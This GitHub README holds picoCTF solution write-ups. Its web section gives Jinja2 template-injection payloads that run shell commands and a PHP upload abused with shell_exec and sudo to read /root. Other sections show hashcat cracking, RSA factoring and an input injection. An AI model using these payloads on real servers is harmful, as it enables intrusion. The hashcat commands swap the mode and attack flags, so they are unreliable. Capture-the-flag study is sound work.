 # My picoCTF exercises

## [My picoCTF profile](https://play.picoctf.org/users/RedZunder)
- [Web exploitation](#web-exploitation)
- [Cryptography](#cryptography)
- [Reverse engineering](#reverse-engineering)
- [General Skills](#general-skills)


# Web Exploitation
<details open>
  <summary>SSTI1</summary>
  
  Entering the target website, we find an input field which 'announces' the user input. As inferred from the title of this CTF, we are looking to Server Side Template Injection.
  Using this workflow from [Cobalt](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti):
  ![image](https://github.com/user-attachments/assets/64991461-7402-4241-959a-9405862694a3)

  `$(7*7)` simply returns that literal string. Writing `{{7*7}}`, however, returns `49`. Sending `{{7*'7'}}` gives back `7777777`, suggesting the server might be running **Jinja2**.
  Now we can run commands like this one: `{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}` to see the files in the directory. Doing this we find a `flag` file.
  Naturally, we try to read this file: `{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}` which returns the flag successfully.  
</details>

<details open>
<summary>n0s4n1ty 1</summary>

When entering the machine, we are presented a page where the user can upload a profile picture. First we will try to exploit this by checking if the input is sanitized. Trying to upload some `test.txt` file, and navigating to `/uploads/test.txt` as indicated by the upload page, we see the input is indeed not sanitized, since we are able to upload _any_ type of file. Next, we start trying differet commands in a `php` file:
```php
<?php

echo getcwd();

?>
```
which successfully returns the path `/var/www/html/uploads` . Knowing the structure, we try `ls /` and see where the `root` folder is. Now we can test if we may be able to `sudo` commands. Adding `sudo -l` we obtain:
```
...
User www-data may run the following commands on challenge:
    (ALL) NOPASSWD: ALL
```
Meaningg we can `sudo` whatever we want. So, we attempt `echo shell_exec('sudo ls /root')` and find `flag.txt` in that folder. 

Finally, adding the line `echo shell_exec('sudo cat /root/flag.txt')` gives us the flag.
</details>















# Cryptography

<details open>
<summary>Hashcrack</summary>
  
When we use _netcat_ to get the server, we are given a hash. Checking its length, we see it's 32 characters, or 128 bits, typical of MD5. 

Using ```hashcat -m 0 -a 0 <hash> /usr/share/wordlists/rockyou.txt``` we crack the password pretty quick.
The next hash is 40 char long, or 160 bits. Trying first with SHA-1, ```hashcat -m 0 -a 100 <hash> /usr/share/wordlists/rockyou.txt``` we again obtain the password. 

One last time, the hash is of length 64, or 256 bits. Supposing it's SHA-256 and running the same command with ```-a 1400```, we obtain the flag.

</details>

<details open>
<summary>Even RSA can be broken</summary>
  
First we use _netcat_ to get the encrypted flag, 'N' and 'e'. Looking at the source code provided, we see how the RSA keys are calculated.
```python
def gen_key(k):
    """
    Generates RSA key with k bits
    """
    p,q = get_primes(k//2)
    N = p*q
    d = inverse(e, (p-1)*(q-1))

    return ((N,e), d)
```
From the library `Crypto.Util.number` we can make use of `inverse` to reverse this encryption.
```python
#We obtain the prime factors of N
(p,q)=factorint(N)

#We calculate phi, needed for the next step
phi=(p-1)*(q-1)

#We get the inverse modulo, from the algorithm:  (d*e) % phi = 1
d=inverse(e,phi)

#Finally obtain the flag -> From the source code:  pow(bytes_to_long(flag.encode(utf-8)),e,N) so we reverse it
flag=long_to_bytes(pow(cypher,d,N)).decode()
```
  
</details>





# Reverse Engineering
<details open>
<summary>Flag Hunters</summary>
  
We use _netcat_ to communicate with the server and download the Python source code. Checking the code, we observe:

```python
elif re.match(r"CROWD.*", line):
    crowd = input('Crowd: ')
    song_lines[lip] = 'Crowd: ' + crowd
```
Which allows the user to enter anything, including commands.
We can also find:

```python
elif re.match(r"RETURN [0-9]+", line):
    lip = int(line.split()[1])
```
Which returns to the beginning of one of the paragraphs from 0 to 9. The flag is stored in paragraph 0, which is not shown.
We can then inject the code ```blablabla; RETURN 0``` in order to trigger the RETURN case, and thus obtain the flag in plaintext.


</details>



# General Skills

<details open>
<summary>Plumbing</summary>
  
This challenge is trivial: simply `nc` to the machine and obtain a large text, then I used `| grep 'pico'` and obtained the flag.

<details open>
<summary>Based</summary>

Also a trivial challenge, we must translate from binary, octal and hex to ascii within 45 seconds. I simply used online tools to translate the inputs, and obtain the flag.

</details>

















